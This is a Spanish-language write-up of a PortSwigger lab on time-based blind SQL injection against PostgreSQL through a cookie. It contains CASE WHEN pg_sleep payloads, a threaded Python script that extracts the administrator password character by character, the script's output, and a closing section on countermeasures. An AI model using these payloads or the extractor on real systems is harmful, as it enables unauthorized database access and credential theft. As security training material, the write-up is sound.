


# Writeup: Blind SQL injection with time delays and information retrieval (PortSwigger)

- **Lab**: Blind SQL injection with time delays and information retrieval
- **URL**: https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval
- **Categoría**: SQL Injection → Blind SQL injection → Time-based (con extracción)
- **Dificultad**: Practitioner

---

## 1. Objetivo

Continuación natural del lab anterior ([blind-sqli-time-delays](../blind-sqli-time-delays/writeup.md)). Mismo punto de inyección (cookie `TrackingId`) y mismo motor (PostgreSQL), pero ahora el lab no se conforma con un retardo: hay que **extraer la password de `administrator`** usando el tiempo de respuesta como único canal — y luego loguearse.

### Lo que ya sabemos del lab anterior

- Inyección en `TrackingId`, sin canal visible (ni errores ni boolean).
- PostgreSQL con stacked queries permitidas (`;`).
- Gotcha: `;` en cookie va URL-encoded como `%3B`.
- Baseline ~185ms; un `pg_sleep(N)` se distingue trivialmente.

Lo nuevo: pasar de "provocar retardo" a "**condicionar** el retardo a un valor leído de la DB". Si la condición es verdadera → 10s. Si es falsa → respuesta rápida. Ese binario "tarda / no tarda" es nuestro 1/0 de exfiltración.

---

## 2. Validar inferencia condicional

Antes de extraer nada, hay que confirmar que el `CASE WHEN` se comporta como esperamos. Sin esto, una extracción que no encuentra hits podría ser un fallo de sintaxis y no un fallo de payload.

Setup: nueva instancia, baseline tomado.

```
TrackingId=8nuUNutznxjfJRf3      → 186 / 187 / 185 ms   ← baseline
```

Dos tests con condiciones triviales (sin tocar la DB) para validar las dos ramas del `CASE`:

### Test A — condición siempre verdadera

```
TrackingId=x'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--
```

→ **~10s**. La rama `THEN` se ejecuta.

### Test B — condición siempre falsa

```
TrackingId=x'%3BSELECT+CASE+WHEN+(1=2)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--
```

→ **~185ms**. La rama `ELSE` se ejecuta y `pg_sleep(0)` no añade retardo.

| Condición | Tiempo | Rama evaluada |
|---|---|---|
| `(1=1)` | ~10000 ms | `THEN` ✓ |
| `(1=2)` | ~185 ms | `ELSE` ✓ |

Validado. Cualquier diferencia >5s en una request futura significa que la condición que pusimos en el `WHEN` es verdadera. Tenemos canal de inferencia.

> **Por qué este test importa**: si la DB evaluara *ambas* ramas eagerly (algunos motores lo hacen con funciones puras), ambos tests tardarían 10s y la extracción daría falsos positivos en todas las posiciones. PostgreSQL evalúa `CASE` lazy, por eso `(1=2)` vuelve rápido.

---

## 3. Determinar la longitud de la password

Antes de iterar carácter a carácter, conviene saber cuántos caracteres hay que iterar. Probamos la hipótesis estándar de PortSwigger (20 chars):

```
TrackingId=x'%3BSELECT+CASE+WHEN+(SELECT+LENGTH(password)+FROM+users+WHERE+username='administrator')=20+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--
```

→ **10206 ms** → password tiene exactamente **20 caracteres**.

Si hubiera fallado, el siguiente paso sería binary search con `>` (`LENGTH(...)>16`, `>24`, etc.), pero la heurística "PortSwigger labs = 20 chars" suele funcionar al primer intento.

---

## 4. Extracción — del Repeater al script

### El problema con Burp Intruder

El payload de extracción es:

```sql
x';SELECT CASE WHEN (username='administrator' AND SUBSTRING(password,POS,1)='CHAR')
  THEN pg_sleep(5) ELSE pg_sleep(0) END FROM users--
```

con dos variables: `POS` (1..20) y `CHAR` (a-z, 0-9). En Intruder se monta como **cluster bomb** con dos payload sets — fácil de configurar, pero hay un problema operacional:

- 20 × 36 = **720 requests**.
- Burp Suite **Community** está limitado a **1 thread** (las versiones Pro permiten paralelismo).
- Las 20 requests "hit" tardan ~10s cada una, las 700 "miss" tardan ~200ms.
- Total secuencial: 20 × 10s + 700 × 0.2s ≈ **340 segundos ≈ 6 minutos**.

Para un lab puntual aguantable. Para iterar rápido durante aprendizaje, no.

### La solución — script Python con threading

Misma técnica, pero lanzando los candidatos en paralelo. Con 10 workers, las requests "miss" cubren los huecos mientras las 20 "hit" mantienen los threads ocupados. Tiempo total esperado: ~1 minuto (limitado por el coste serializado en la DB de los `pg_sleep` concurrentes).

`extract.py` (script en este mismo directorio):

```python
#!/usr/bin/env python3
"""Blind SQLi time-based extractor — PortSwigger lab info-retrieval."""
import argparse, concurrent.futures, string, time, urllib.parse
import requests

CHARSET = string.ascii_lowercase + string.digits   # a-z + 0-9
PASSWORD_LEN = 20
SLEEP_SECONDS = 5
THRESHOLD = 3.0
MAX_WORKERS = 10


def build_cookie_value(pos: int, char: str) -> str:
    sql = (
        f"x';SELECT CASE WHEN (username='administrator' AND "
        f"SUBSTRING(password,{pos},1)='{char}') "
        f"THEN pg_sleep({SLEEP_SECONDS}) ELSE pg_sleep(0) END FROM users--"
    )
    return urllib.parse.quote_plus(sql)   # ; → %3B, ' → %27, espacio → +


def probe(session, url, session_cookie, pos, char):
    cookie = f"TrackingId={build_cookie_value(pos, char)}"
    if session_cookie:
        cookie += f"; session={session_cookie}"
    t0 = time.time()
    session.get(url, headers={"Cookie": cookie}, timeout=SLEEP_SECONDS + 10)
    return pos, char, time.time() - t0


# ... main() lanza ThreadPoolExecutor sobre todos los (pos, char) y filtra por elapsed >= THRESHOLD
```

Decisiones clave:

- **`SLEEP_SECONDS=5`** en lugar de 10. Un sleep de 5s ya está muy por encima del baseline (~200ms) — distinguible sin ambigüedad — y reduce a la mitad el tiempo total. `THRESHOLD=3.0` da margen para variaciones de red sin falsos positivos.
- **`urllib.parse.quote_plus(sql)`** encodea automáticamente `;` → `%3B`, `'` → `%27`, ` ` → `+`. No hay que pelearse con el cookie parser.
- **`ThreadPoolExecutor` con 10 workers**. Más threads no aceleran linealmente porque la DB serializa los `pg_sleep` que comparten conexión/pool. 10 es buen punto medio.
- **Streaming de resultados**: imprime cada hit a medida que llega, no espera al final. Útil para ir validando en vivo.

### Ejecución

```bash
$ python3 extract.py --url https://0a18000c037c4be680e5a30f009c002f.web-security-academy.net
[+] Target:    https://0a18000c037c4be680e5a30f009c002f.web-security-academy.net
[+] Probes:    720 (20 pos × 36 chars)
[+] Workers:   10
[+] Sleep:     5s   Threshold: 3.0s

  [hit] pos= 1 char='j'  ( 5.95s, status=200)  →  1/20
  [hit] pos= 2 char='y'  ( 5.75s, status=200)  →  2/20
  [hit] pos= 3 char='u'  ( 5.79s, status=200)  →  3/20
  [hit] pos= 4 char='e'  ( 5.75s, status=200)  →  4/20
  [hit] pos= 5 char='p'  ( 5.73s, status=200)  →  5/20
  [hit] pos= 6 char='e'  ( 5.74s, status=200)  →  6/20
  [hit] pos= 7 char='l'  ( 5.73s, status=200)  →  7/20
  [hit] pos= 8 char='y'  ( 5.75s, status=200)  →  8/20
  [hit] pos= 9 char='o'  ( 5.75s, status=200)  →  9/20
  [hit] pos=10 char='g'  ( 5.74s, status=200)  →  10/20
  [hit] pos=11 char='m'  ( 5.75s, status=200)  →  11/20
  [hit] pos=12 char='4'  ( 5.74s, status=200)  →  12/20
  [hit] pos=13 char='5'  ( 5.75s, status=200)  →  13/20
  [hit] pos=14 char='r'  ( 5.75s, status=200)  →  14/20
  [hit] pos=15 char='d'  ( 5.77s, status=200)  →  15/20
  [hit] pos=16 char='s'  ( 5.74s, status=200)  →  16/20
  [hit] pos=17 char='h'  ( 5.74s, status=200)  →  17/20
  [hit] pos=18 char='e'  ( 5.74s, status=200)  →  18/20
  [hit] pos=19 char='s'  ( 5.75s, status=200)  →  19/20
  [hit] pos=20 char='l'  ( 5.73s, status=200)  →  20/20

[+] Done in 67.0s
[+] Password: jyuepelyogm45rdshesl
```

20/20 hits, **67 segundos** vs los ~340s estimados de Intruder Community (≈ **5× más rápido**). Y todos los hits cayeron en el rango 5.73-5.95s, muy por encima del threshold de 3s — sin falsos positivos.

### ¿Por qué tardó 67s y no los ~15-20s ingenuos?

Estimación naïve: con 10 workers paralelos y 20 hits de 5s cada uno, deberían caber en `(20 × 5) / 10 = 10 segundos` + tiempo de los misses. Real: 67s. La diferencia es la **serialización en la DB**:

- Cada conexión PostgreSQL ejecuta una query a la vez. Si el pool tiene N conexiones y lanzamos > N `pg_sleep` concurrentes, los excedentes esperan.
- Aunque tengamos 10 conexiones disponibles, los `pg_sleep` tienden a saturarlas porque mantienen la conexión bloqueada.
- Resultado: los hits no se paralelizan al 100% — corren en tandas más pequeñas.

Sigue siendo aceptable. Para acelerar aún más se podría:
- Bajar `SLEEP_SECONDS` a 3s (riesgo de falsos negativos si la red se pone lenta).
- Subir `MAX_WORKERS` hasta saturar el pool de la DB (probar 20-30, ver si sigue mejorando).
- Cambiar a búsqueda binaria por carácter (`SUBSTRING(password,POS,1) > 'm'`) → log₂(36) ≈ 6 requests por posición × 20 posiciones = **120 requests** vs 720. Pero requiere ejecución secuencial dentro de cada posición.

Para este lab no compensa optimizar más — un minuto está bien.

---

## 5. Login y resolución

```
Username: administrator
Password: jyuepelyogm45rdshesl
```

Login, lab marcado como **Solved**.



---

## 6. Resumen de la cadena



Cuatro ideas que llevarse:

1. **Validar las dos ramas del `CASE` antes de extraer**. Un `WHEN (1=1)` y un `WHEN (1=2)` cuestan 10 segundos y descartan que la DB evalúe ambas ramas eagerly (lo que rompería toda la inferencia). Saltarse esto es la causa #1 de "extraje 20 hits y la password no funciona" en time-based.
2. **Burp Community es el cuello de botella, no el lab**. La inyección permite paralelismo sin problema; sólo Intruder lo serializa. Para iterar rápido en time-based, scriptear con `requests + ThreadPoolExecutor` baja minutos a segundos.
3. **`urllib.parse.quote_plus` resuelve los gotchas de cookie de un golpe**: `;` → `%3B`, espacios → `+`, `'` → `%27`. No hay que escribir cada encoding a mano.
4. **El factor limitante en time-based paralelizado es el pool de conexiones de la DB**, no el cliente. Por eso 10 workers no van 10× más rápido que 1 worker — los `pg_sleep` se serializan parcialmente. Fórmula útil: `tiempo_total ≈ (hits × sleep) / min(workers, db_pool_size) + misses × baseline`.

---

## 7. Contramedidas

Las del lab anterior siguen aplicando (parametrización, deshabilitar multi-statement, statement_timeout, mínimo privilegio, monitoreo de latencia). Específicas para mitigar **extracción time-based**:

1. **`statement_timeout` corto** en la cuenta de tracking. Si el timeout es 2s y el atacante necesita `pg_sleep(5)` para inferir, todas sus requests abortan antes de devolver señal y la extracción se vuelve estadísticamente imposible. Es la contramedida más quirúrgica para este vector.
2. **Rate limiting por IP/cookie** en el endpoint de tracking. 720 requests al mismo path en 60s desde la misma IP es un patrón obvio. Bloquear o ralentizar tras N req/s rompe el ataque.
3. **Detección de queries con tiempo anómalo**: alertar cuando una query de tracking que normalmente tarda <500ms de pronto tarda >2s. Pillar la extracción en curso, aunque la inyección exista.
4. **Decorrelacionar el tiempo de ejecución del backend del tiempo de respuesta**: ejecutar la query de tracking en background (fire-and-forget) y devolver la respuesta inmediatamente con un valor placeholder. El atacante deja de tener canal de tiempo. Es un cambio arquitectural — caro, pero elimina la familia entera de time-based.

---

## 8. Referencias

- PortSwigger Web Security Academy. (s.f.). *Lab: Blind SQL injection with time delays and information retrieval*. https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval
- PortSwigger Web Security Academy. (s.f.). *Blind SQL injection*. https://portswigger.net/web-security/sql-injection/blind
- PostgreSQL Documentation. (s.f.). *Conditional Expressions — `CASE`*. https://www.postgresql.org/docs/current/functions-conditional.html
- Python Software Foundation. (s.f.). *`concurrent.futures` — Launching parallel tasks*. https://docs.python.org/3/library/concurrent.futures.html
- Reitz, K. (s.f.). *Requests: HTTP for Humans*. https://requests.readthedocs.io/
- OWASP Foundation. (s.f.). *Blind SQL Injection*. https://owasp.org/www-community/attacks/Blind_SQL_Injection
- Writeup propio: [`learning/portswigger/blind-sqli-time-delays/writeup.md`](../blind-sqli-time-delays/writeup.md) — lab anterior de la serie, con la base de stacked queries y `;` URL-encoded.
- Inventario interno: [`inventario/03-analisis-vulnerabilidades/web/analisis-sqli.md`](../../../inventario/03-analisis-vulnerabilidades/web/analisis-sqli.md) (sección 3 Time-blind, inferencia con `CASE WHEN`).
- Inventario interno: [`inventario/04-explotacion/web/explotacion-sqli.md`](../../../inventario/04-explotacion/web/explotacion-sqli.md) (bloque time-based en pruebas manuales).
